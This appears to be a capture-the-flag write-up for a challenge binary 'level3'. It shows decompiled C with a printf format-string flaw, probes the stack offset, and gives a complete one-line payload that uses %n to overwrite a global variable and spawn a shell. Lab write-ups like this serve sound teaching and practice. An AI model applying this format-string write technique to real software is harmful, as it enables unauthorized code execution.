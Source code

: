 Here is the decompiled code :

```c
void v(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void)

{
  v();
  return;
}
```
We can see that if the global variable m is equal to 0x40 (64 in decimal), it spawns a shell.

We also see that we have a buffer of 520 bytes long and a call to fgets which is protected against buffer overflow however, printf here is vulnarable to a format string exploit. Let's do that.

So first we explore where in the stack the buffer is :
```
./level3
aaaa %x %x %x %x
aaaa 200 e8aa7620 340 61616161
```

We see that our string aaaa is the 4th arg, (61616161 == "aaaa").
So if we input the address of `m` in the input, and write the correct value there thanks to printf %n format we can make m equal to 64.

It's important to remember that the 4th arg, where the address of m will be stored, is already 4 bytes long (because the address is 4 bytes long). So we need to write 60 bytes at that address to make it work.

The address of m is 0x0804988c.

Here is the command :
`(python -c 'print("\x8c\x98\x04\x08%60d%4$n")'; cat) | ./level3`
Composed of [ addr of m ] + [ write 60 bytes in the 4th arg ]

Done.
